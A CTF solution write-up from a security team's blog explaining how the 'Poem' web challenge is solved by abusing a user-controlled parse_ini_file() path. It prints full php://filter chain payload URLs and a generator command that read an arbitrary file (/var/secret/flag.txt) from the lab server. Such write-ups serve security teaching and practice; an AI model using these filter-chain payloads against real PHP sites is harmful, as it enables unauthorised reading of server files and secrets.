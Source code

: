```yaml
---
layout: post
title:  "Poem CTF Solution, the PHP Filter Way"
date:   2025-04-04 06:00:00 +0200
categories: CTF DarkForge PHPFilter
---
```


# DarkForge Labs' First CTF

First off, huge congratulations to everyone who completed the challenge — and a special shoutout to [et3rnos](https://x.com/et3rnos), the first to solve it and our official winner!

This CTF was inspired by the article [*Impossible XXE in PHP*](https://swarm.ptsecurity.com/impossible-xxe-in-php/) by Aleksandr Zhurnakov. If you haven’t read it yet, you’re missing out.

## The Challenge

The challenge was hosted at [https://ctf.darkfor.ge](https://ctf.darkfor.ge/) with the source available on our [GitHub](https://github.com/darkforge-labs/ctf-poem-web).

Digging into [`index.php`](https://github.com/darkforge-labs/ctf-poem-web/blob/main/index.php), we find three interesting things:

- The file parses a user-controlled parameter using:  
  `parse_ini_file($poem_file, true);`
- The `$poem_file` variable is controllable via the `poem_file` GET parameter:  
  `$poem_file = $_GET['poem_file'] ?? '/var/www/html/poem.ini';`
- The INI key it looks for is `POEM`:  
  `$config['POEM']`  
  _(Note: INI keys are **case sensitive**.)_

From the [`Dockerfile`](https://github.com/darkforge-labs/ctf-poem-web/blob/main/Dockerfile), we learn the flag is stored at `/var/secret/flag.txt`.

## Solution

Your first instinct might be to try this:  
[https://ctf.darkfor.ge/?poem_file=/var/secret/flag.txt](https://ctf.darkfor.ge/?poem_file=/var/secret/flag.txt)

But that won’t work. The flag file doesn’t contain INI-formatted content, and `parse_ini_file()` expects a valid format like:

```ini
POEM = FLAG_VALUE
```

So, the trick is to **prepend** the necessary INI key to the flag content.

## Dead Ends

If you’re familiar with the modern [wrapwrap](https://github.com/ambionics/wrapwrap) technique by [Charles Fol](https://x.com/cfreal_), you might try using that. However, due to server constraints on URL length, you’ll hit a "Requested URI Too Long" error.

![URI too long error](/assets/images/6b62b65e86a4665f74c7ca862328fc1cc098ecda.png)

## Filters to the Rescue

It all starts with this legendary post by [Gynvael](https://x.com/gynvael) in 2018:  
[Surprising CTF task solution using php://filter](https://gynvael.coldwind.pl/?id=671)

Shortly after this post, [lolknop](https://x.com/loknop) took it further with a custom payload generator you can find in this [Gist](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d).

This is perfect — we can use it to prepend the line `POEM = ` to the flag content, making it parsable by `parse_ini_file()`.

But... there’s a slight snag. Both `POEM =` and its base64 form `UE9FTSA9` contain characters not supported by lolknop's script. The workaround? Use a **tab** and remove the space before the `=`:

```
\tPOEM=
```

Which base64-encodes to: `CVBPRU09` — a string with characters fully supported by the Gist tooling. Excellent.

This allows us to build a monster filter chain like this:

```
php://filter/.../resource=/var/secret/flag.txt
```

*(Note: Click the link for the full URL)*

[Payload link https://ctf.darkfor.ge/?poem_file=php://filter/convert.iconv.UTF8...\|convert.base64-decode/resource=/var/secret/flag.txt](https://ctf.darkfor.ge/?poem_file=php://filter/convert.iconv.UTF8.CSISO2022KR%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.ISO2022KR.UTF16%7cconvert.iconv.ISO6937.JOHAB%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.ISO2022KR.UTF16%7cconvert.iconv.UCS-2LE.UCS-2BE%7cconvert.iconv.TCVN.UCS2%7cconvert.iconv.1046.UCS2%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.ISO2022KR.UTF16%7cconvert.iconv.CP1133.IBM932%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.UTF16LE%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.UTF16.EUCTW%7cconvert.iconv.MAC.UCS2%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.ISO2022KR.UTF16%7cconvert.iconv.UCS-2LE.UCS-2BE%7cconvert.iconv.TCVN.UCS2%7cconvert.iconv.857.SHIFTJISX0213%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.UTF16LE%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.UTF16.EUCTW%7cconvert.iconv.CP1256.UCS2%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.ISO2022KR.UTF16%7cconvert.iconv.UCS-2LE.UCS-2BE%7cconvert.iconv.TCVN.UCS2%7cconvert.iconv.851.BIG5%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.base64-decode/resource=/var/secret/flag.txt)

## Easier Payload Generation

For a much cleaner experience, use the [PHP Filter Chain Generator](https://github.com/synacktiv/php_filter_chain_generator) by [Rémi Matasse](https://x.com/_remsio_) of Synacktiv. It already maps most ASCII character to their supported encodings.

Just run:

```bash
python php_filter_chain_generator.py --chain 'POEM ='
```

Then replace `resource=` with your target file (`/var/secret/flag.txt`), and voilà, payload done.

*(Note: Click the link for the full URL)*

[https://ctf.darkfor.ge/?poem_file=php://filter/convert.iconv...\|convert.base64-encode\|...\|convert.base64-encode\|convert.iconv.UTF8.UTF7\|convert.base64-decode/resource=/var/secret/flag.txt](https://ctf.darkfor.ge/?poem_file=php://filter/convert.iconv.UTF8.CSISO2022KR%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.CSIBM1161.UNICODE%7cconvert.iconv.ISO-IR-156.JOHAB%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.8859_3.UTF16%7cconvert.iconv.863.SHIFT_JISX0213%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.INIS.UTF16%7cconvert.iconv.CSIBM1133.IBM943%7cconvert.iconv.GBK.SJIS%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.L6.UNICODE%7cconvert.iconv.CP1282.ISO-IR-90%7cconvert.iconv.CSA_T500.L4%7cconvert.iconv.ISO_8859-2.ISO-IR-103%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.L5.UTF-32%7cconvert.iconv.ISO88594.GB13000%7cconvert.iconv.CP950.SHIFT_JISX0213%7cconvert.iconv.UHC.JOHAB%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.CSIBM1161.UNICODE%7cconvert.iconv.ISO-IR-156.JOHAB%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.IBM860.UTF16%7cconvert.iconv.ISO-IR-143.ISO2022CNEXT%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.INIS.UTF16%7cconvert.iconv.CSIBM1133.IBM943%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.base64-decode/resource=/var/secret/flag.txt)

![Flag Retrieved](/assets/images/3cc56575fc80a023f712eadc961786902d7b0d89.png)

For deeper understanding, I highly recommend reading their full post:  
[*PHP Filters Chain: What is it and how to use it*](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it)

You can also explore [PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT) by [Wupco](https://github.com/wupco) for fuzzing and payload crafting.

## Final Thoughts

This challenge was all about exploring edge-case behavior in PHP’s obscure corners and the community’s creativity in weaponizing those quirks. The linked articles are truly mind-bending and absolutely worth a read.

Big thanks to everyone who played, and stay tuned, the [DarkForge](https://darkforge.io) team has a lot more coming your way.